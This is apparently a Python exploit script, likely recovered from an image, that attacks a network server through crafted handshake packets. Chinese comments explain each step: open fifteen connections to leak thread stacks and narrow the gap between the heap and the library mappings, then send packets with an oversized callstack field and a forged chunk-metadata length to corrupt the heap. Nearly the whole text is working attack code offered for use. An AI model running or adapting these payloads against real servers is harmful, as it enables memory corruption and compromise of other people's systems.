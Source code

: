 ```python

if __name__ == '__main__':
    if len(sys.argv) != 3:
        print(f'Usage: {sys.argv[0]} <ip> <port>')
        sys.exit(0)
    
    ip = sys.argv[1]
    port = int(sys.argv[2])
    ChunkCallstackFlag = 0x00010000

# step 1: 制造内存泄露，填补server线程到库文件之间的gap
# 
#     0                                       64M
# ----V----------------------------------------V--------------|-------------
#     |          server thread's heap          |  random gap  |  libraries
# ----|----------------------------------------|--------------|-------------
#
#  建立7个连续的连接, 每个连接会 clone 出一个新的线程，每个线程glibc会分配 8MB + 4KB 的栈空间
#  目的是为了缩小 server thread 堆到库文件映射之间的gap。
#  新的线程因为不满足校验而退出，但源程序没有用到pthread_join，造成了每个线程的 8MB + 4KB 内存泄露
# 
    for i in range(15):
        sleep(1)
        s = socket(AF_INET, SOCK_STREAM)
        s.connect((ip, port))
        packet = p32(0x2) + p32(0) + p32(9) + p32(0x5) + f'root{i}'.encode() + p32(0) + b'a'*0x40
        s.sendall(packet)
        s.close()
        print(f'thread stack leak {i}')
        
		# step 2：
    # ePacket_Handshake | ChunkCallstackFlag
    # + CallstackSize (实际会分配 CallstackSize x 8 大小的堆块)
    # + CallstackContent 
    # + p32(1)   
    # + clientname 的长度
    # + clientname  
    # + p32(0xe)是控制 m_ChunkMetadata.length 字段的
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((ip, port))
    packet = p32(0x2 | ChunkCallstackFlag) \
            + p32(0x26) \
            + b'\x01\x01\x01\x01\x01\x01\x01\x01' * 0x26 \
            + p32(0xe) \
            + p32(9) \
            + p32(0x5) + b'ts588' \
            + p32(0) + b'\x02' * 54
    
    s.sendall(packet)
    # step 3:
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((ip, port))
    packet = p32(0x2 | ChunkCallstackFlag) \
            + p32(0x40) \
            + b'\xff' * 0x200 \
            + p32(0x1) \
            + p32(0) \
            + b'\x00\x00\x00\x01' \
            + b'\xfe' * (16 * 1024 - 1) * 1024 \
            + b'\xfd' * 1024 
    
    s.sendall(packet)
    
```